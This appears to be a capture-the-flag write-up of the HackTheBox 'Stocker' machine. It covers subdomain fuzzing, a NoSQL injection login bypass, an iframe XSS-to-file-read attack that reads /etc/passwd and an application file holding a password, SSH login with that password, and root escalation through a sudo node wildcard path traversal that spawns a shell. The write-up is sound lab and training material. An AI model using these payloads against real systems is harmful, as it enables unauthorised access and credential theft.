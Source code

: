 ```yaml
---
title: HackTheBox - Stocker
categories: [HackTheBox, HackTheBox - Linux]
date: 2023-06-10
tags: [xss, lfi, nosqli, wildcard, node, pdf]
img_path: /Writeups/HackTheBox/Linux/Stocker/images/
image:
  src: Pasted%20image%2020230625002217.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 

Machine begins with a subdomain enumeration, discovering `dev.stocker.htb`, where it is susceptible to a `NoSQLi` login bypass. Exploiting this vulnerability granted access to the cart checkout page, which was found to be vulnerable to a cross-site scripting to local file inclusion (XSS2LFI) attack. By leveraging the XSS vulnerability, it was possible to perform local file inclusion (LFI) and gain access to the `index.js` file, which contained credentials for the user `angoose`.

Next, it was observed that the user `angoose` possessed the privilege to execute the command `sudo /usr/bin/node /usr/local/scripts/*.js`. The usage of the wildcard (`*`) in the command created a vulnerability that allowed for directory traversal, enabling the execution of a malicious payload. privilege escalating us to `root`.

---

| Column       | Details                                                        |
|--------------|----------------------------------------------------------------|
| Box Name     | Stocker                                                        |
| IP           | 10.10.11.196                                                   |
| Points       | 20                                                             |
| Difficulty   | Easy                                                           |
| Creator      | [JoshSH](https://www.hackthebox.com/home/users/profile/269501) |
| Release Date | 14 Jan 2023                                                    |

# Recon

## TCP/80 (HTTP)

- FFUF
	- Could not enumerate any interesting files
- Enumerate for subdomains

	```
	┌──(root💀kali)-[~/htb/stocker]
	└─# ffuf -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fc 301
	
	dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 249ms]
	```

	> `dev.stocker.htb` - add it to your `/etc/hosts`
	{: .prompt-info}

# Initial Foothold

## TCP/80 (HTTP) - NoSQLi

1.  Proceed to `http://dev.stocker.htb`, found a login page
2. With `webappalyzer` found that page is running on `node.js`
	![](Pasted%20image%2020230610175108.png)

	> Since it is `node.js` , we can try NoSQLi
	{: .prompt-info}

3. NoSQLi worked

	```
	# Payload
	POST /login HTTP/1.0
	Host: dev.stocker.htb
	User-Agent: Mozilla/5.0 (Hydra Proxy)
	Content-Length: 59
	Content-Type: application/json
	Cookie: connect.sid=s%3AqAR-6lAK22yFu_5EbRGEq3zlLw0ch7dB.fQcRonylfrEFjjkKqs6H6wQgHouF%2FBB7btxpEfskgbA
	Connection: close
	
	{"username": {"$ne": null}, "password": {"$ne": null} }
	```

	> - Change content type to `application/json`
	{: .prompt-info}

4. Demo - NoSQLi 
	![](uLV6UuMCM9.gif)
5. Web directory
	![](Pasted%20image%2020230610233351.png)

	>`/var/www/dev/`
	{: .prompt-info}

## TCP/80 - XSS2LFI

1. Add items to cart and checkout, intercept w/ `burp`
	![](Pasted%20image%2020230610232347.png)

	> There are a lot of parameters that could be vulnerable, we'll have to try them one by one
	{: .prompt-info}

2. Download the purchase order to look at the metadata w/ `exiftool`

	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# exiftool asdf.pdf
	ExifTool Version Number         : 12.44
	File Name                       : asdf.pdf
	Directory                       : .
	File Size                       : 41 kB
	File Modification Date/Time     : 2023:06:10 23:10:55+08:00
	File Access Date/Time           : 2023:06:10 23:10:54+08:00
	File Inode Change Date/Time     : 2023:06:10 23:11:06+08:00
	File Permissions                : -rw-r--r--
	File Type                       : PDF
	File Type Extension             : pdf
	MIME Type                       : application/pdf
	PDF Version                     : 1.4
	Linearized                      : No
	Page Count                      : 1
	Tagged PDF                      : Yes
	Creator                         : Chromium
	Producer                        : Skia/PDF m108
	Create Date                     : 2023:06:10 15:05:00+00:00
	Modify Date                     : 2023:06:10 15:05:00+00:00
	```

	>`Skia/PDF m108` - Google it
	{: .prompt-info}

3. `title` parameter is susceptible to `XSS`, allowing us to do LFI

	```
	# Payload
	"title":"<iframe src=/etc/passwd>",
	```

	![](Pasted%20image%2020230610233121.png)

4. View `index.js` (Because web running on `node.js`)

	```
	# Payload
	"title":"<iframe width=1000 height=1000 src=/var/www/dev/index.js></iframe>"
	```

	![](Pasted%20image%2020230610234140.png)

	>`dev:IHeardPassphrasesArePrettySecure`
	{: .prompt-info}

## TCP/22 (SSH) 

1. Since `dev` user does not exist, `ssh` into user `angoose`

	```
	┌──(root💀kali)-[~/htb/stocker/10.10.11.196/exploit]
	└─# sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
	Last login: Sat Jun 10 00:32:45 2023 from 10.10.14.2
	angoose@stocker:~$ id;whoami
	uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
	angoose
	angoose@stock
	```

# Privilege Escalation

## Root - Wildcard + Node Sudo

1. User `angoose` sudo access

	```
	angoose@stocker:/var/www/dev$ sudo -l
	Matching Defaults entries for angoose on stocker:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User angoose may run the following commands on stocker:
	    (ALL) /usr/bin/node /usr/local/scripts/*.js
	```

	> - The usage of `*` makes this sudo privilege vulnerable, we are able to do directory traversal and point `/usr/bin/node` to any file we want 
	> - `/usr/local/scripts/../../../../../../tmp/something.js` works 
	{: .prompt-info}

2. Create payload `/tmp/exploit.js`

	```
	angoose@stocker:/var/www/dev$ nano /tmp/exploit.js
	require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
	angoose@stocker:/var/www/dev$ chmod +x /tmp/exploit.js
	```

3. Execute our exploit w/ `/usr/bin/node` to `root`

	```
	# Payload
	sudo /usr/bin/node /usr/local/scripts/../../../../../../../tmp/exploit.js
	```

4. Demo - `Node` sudo + wildcard
	![](WVtAYUrw1W.gif)
